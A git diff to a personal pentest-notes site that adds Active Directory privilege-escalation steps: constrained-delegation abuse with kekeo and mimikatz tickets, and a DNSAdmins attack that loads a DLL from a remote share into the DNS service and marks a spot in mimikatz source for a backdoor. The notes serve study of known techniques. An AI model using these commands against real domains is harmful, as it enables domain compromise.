

Before and after one commit to mvc1009/hackingnotes, a Jekyll site: the page built from _docs/active-directory/domain-privesc.md, in a window 1280 px wide and 1400 px high, scrolled down 6370 px. Shown: the whole window at 97% size, without its empty margins (343-1231 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 7000 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
dnsaddmins privesc

````diff
--- a/_docs/active-directory/domain-privesc.md
+++ b/_docs/active-directory/domain-privesc.md
@@ -206,6 +206,100 @@ A typical scenario where constrained delegation is userd is where a user authent
 
 To impersonate the user, Service for user as known as `S4U` extension is used which provides two extensions:
 
-* **Service for User to Self (S4U2self)**: Allows a service to obtain a forwardable TGS to itself on behalf a user.
+* **Service for User to Self (S4U2self)**: Allows a service to obtain a forwardable TGS to itself on behalf a user with just the user principal name without supplying a password. The service account must have the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` (T2A4D UserAccountControl attribute).
 
-* **Service for User to Proxy (S4U2proxy)**: Allows a service to obtain a TGS to a second service on behalf of a user.
+* **Service for User to Proxy (S4U2proxy)**: Allows a service to obtain a TGS to a second service on behalf of a user. The attribute `msDS-AllowedToDelegate` attribute contains a list of SPNs to which the user tokens can be forwarded.
+
+
+To abuse constrained delegation, we need to have access to the web service account. If we have access to that account, it is possible to access the services listed in `msDS-AllowedToDelegateTo` of the web service accoutn as any user.
+
+* PowerView Dev:
+```powershell
+Get-DomainUser -TrustedToAuth
+Get-DomainComputer -TrustedToAuth
+```
+* ADModule:
+```
+Get-ADObject -Filter {msDS-AllowerToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
+```
+
+We can use `asktgt` from `kekeo` to request a TGT.
+
+```
+.\kekeo.exe
+
+tgt::ask /user:websvc /domain
+```
+Once we have the TGT, with kekeo we can request a TGS.
+
+```
+tgt::s4u /tgt:TGT_websvc@CORP.LOCAL_krbtgt~corp.local@corp.local.kirbi /user:Administrator@corp.local /service:cifs/mssql.corp.local
+```
+Finally with mimikatz we can inject the ticket on the current session:
+
+```
+Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@corp.local@CORP.LOCAL_cifs~mssql.corp.local@CORP.LOCAL.kirbi"'
+```
+
+> **Note**: The delegation occurs not only for the specified service but for any service running under the same account. The is no validation for the SPN specified.
+
+
+# DNSAdmins
+
+It is possible for the members of the **DNSAdmins** group to load arbitrary DLL with the privileges of dns.exe which is `NT AUTHORITY\SYSTEM`.
+
+In case the domain controllers also serves as DNS, this will provide us escalation to domain admin. We just need privileges to restart the DNS service.
+
+Enumerate the `DNSAdmins` group:
+
+* PowerView:
+```powershell
+Get-NetGroupMember -GroupName "DNSAdmins"
+```
+
+* ADModule:
+```powershell
+Get-ADGRoupMember -Identity DNSAdmins
+```
+
+After compromise a member and from the privileges of DNSAdmins group, we can configure a `dll`:
+
+
+* dnscmd.exe:
+```
+dnscmd dc01 /config /serverlevelplugindll \\10.10.10.10\share\mimilib.dll
+```
+
+* DNSServer:
+```
+$dnsettings = Get-DnsServerSetting -ComputerName dc01 -Verbose -All
+$dnsettings.ServerLevelPluginDll = "\\10.10.10.10\share\mimilib.dll"
+Set-DnsServerSetting -InputObject $dnsettings -ComputerName dc01 -Verbose
+```
+
+We need to restart the service:
+
+```
+sc \\dc01.corp.local stop dns
+sc \\dc01.corp.local start dns
+```
+
+By default `mimilib.dll` logs all DNS queries on the following file:
+```
+c:\windows\sytem32\kiwidns.log
+```
+
+We can modify the source code of `kdns.c` from `mimikatz` in order to add a reverse shell or other type of backdoor.
+
+```
+#pragma warning(disable:4996)
+	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
+#pragma warning(pop)
+	{
+		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
+		fclose(kdns_logfile);
+		system("C:\\Windows\\System32\WindowsPowerShell\\v1.0\\powershell.exe -e ZQBjAGgAbwAgACIAdABlAHMAdAAiAA==")   //THIS LINE
+	}
+	return ERROR_SUCCESS;
+}
+```
````
Also changed, not shown: 4 other files.
